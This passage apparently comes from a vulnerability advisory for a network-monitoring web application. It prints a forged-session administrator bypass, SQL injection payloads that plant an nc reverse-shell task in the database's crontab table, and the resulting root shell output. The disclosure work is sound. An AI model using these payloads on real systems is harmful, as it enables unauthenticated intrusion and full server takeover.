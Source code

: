 After the application executes the SQL injection statement, an unauthenticated user is able to access authenticated actions such as `checkSession` by including a `sessionid` cookie with the injected value of `1337133713371337` to impersonate an administrator:

```http
POST /fcgi/scrut_fcgi.fcgi HTTP/1.1
Host: 192.168.1.240
Cookie: cookiesenabled=1; seenSkinModal=1; userid=1; sessionid=1337133713371337;
Connection: close
Content-Length: 31

rm=authInit&action=checkSession
```
***Accessing `checkSession` as an Administrator***

```http
HTTP/1.1 200 OK

{"session":1}
```
***Server Response Confirming Authenticated Administrator Access***

In addition to impersonating privileged users, it was also possible to execute arbitrary commands on the system by injecting into the `tasks` database table. Entries in the `tasks` database table consist of system commands that can be executed on application server. To demonstrate the ability of an unauthenticated user to obtain remote command execution, the following payload was used to insert the command `sudo /bin/nc 192.168.1.239 443 --ssl -e /bin/sh` with a task identifier of `7777`:

```sql
"sorting":",(SELECT 1 FROM dblink((select 'host=localhost user=plixer'), E'insert into tasks values (7777,\\'myTaskName\\',\\'sudo\\',\\'[\"/bin/nc\",\"192.168.1.239\",\"443\",\"--ssl\",\"-e\",\"/bin/sh\"]\\',0,1,7,\\'plixer\\',\\'2023-05-09 19:00:01.742342\\')') RETURNS (result TEXT))--"
```
***Injecting a Task into the `tasks` Database Table***

Upon successful insertion of the above command into the `tasks` table, another injection attack was performed to add the task identifier (`7777`) into the `crontab` table for execution:

```sql
"sorting":",(SELECT 1 FROM dblink((select 'host=localhost user=plixer'), E'insert into crontab values (7777,1152921504606846975,16777215,0,0,0)') RETURNS (result TEXT))--"
```
***Injecting the `7777` Task Identifier into `crontab`***

The injected command directs the `nc` command on the application server to execute a reverse shell connection to an attacker controlled host (`192.168.1.239`) on port `443`. To receive the reverse shell, an SSL-encrypted listener was started on the attacker-controlled host. Upon execution of the `crontab` task, remote `root` shell access is granted as shown here:

```sh
[$]> ncat -lvkp 443 --ssl
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: E513 F332 FE13 0B3B 0E04 DE04 E7FD A13B 038B 3812
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.1.240:59542.
id
uid=0(root) gid=0(root) groups=0(root)
```
***Remote `root` Shell from Injected Task***
